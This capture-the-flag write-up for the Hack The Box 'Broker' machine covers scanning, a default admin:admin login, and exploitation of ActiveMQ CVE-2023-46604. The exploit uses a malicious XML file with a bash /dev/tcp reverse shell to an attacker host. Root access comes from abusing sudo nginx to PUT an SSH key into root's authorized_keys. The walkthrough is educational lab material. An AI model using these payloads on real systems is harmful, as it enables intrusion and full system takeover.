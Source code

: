 # [Broker](https://app.hackthebox.com/machines/Broker)

```bash
nmap -p- --min-rate 10000 10.10.11.243 -Pn   
```

![Alt text](img/image.png)

After detection of open ports(22,80,1883,5672,8161), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,1883,5672,8161 10.10.11.243
```

![Alt text](img/image-1.png)


I start from port (80), I confront with HTTP Basic Authentication and type just admin:admin , logged on

admin:admin

It is ActiveMQ.

![Alt text](img/image-2.png)


I searched publicly-known exploits for ActiveMQ and find [exploit](https://github.com/evkl1d/CVE-2023-46604.git) whose CVE-id is [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)


1.First, I need to create malicious xml file which have reverse shell payload.
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.16.6/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

2.Then, open http server which serve this malicious xml file.

```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-4.png)

3.Run a script as below.
```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.16.6:8080/dr4ks.xml
```

![Alt text](img/image-3.png)


I got reverse shell from port (1337).

![Alt text](img/image-5.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-6.png)


user.txt

![Alt text](img/image-7.png)


To check privileges of this user, I run `sudo -l` command.

![Alt text](img/image-8.png)


It means that I can create easily malicicous webserver with one configuration file.


Let's create configuration for webserver that I can put data here also for `/root` endpoint.

1.First, create malicious webserver **configuration**.
```conf
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 3169;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

2.Then, apply this conf file to create webserver via `nginx`.
```bash
sudo /usr/sbin/nginx -c /tmp/dr4ks.conf 
```

![Alt text](img/image-9.png)

Hola, malicious webserver is created.

After this I add attacker's public key (**id_rsa.pub**) into `root` user's `authorized_keys` file like below.

```bash
curl -X PUT localhost:3169/root/.ssh/authorized_keys -d '{attacker_public_key}'
```

![Alt text](img/image-10.png)


Then, I can login into machine via `private_key` (id_rsa) file of attacker.
```bash
ssh -i /root/.ssh/id_rsa root@10.10.11.243
```

root.txt

![Alt text](img/image-11.png)

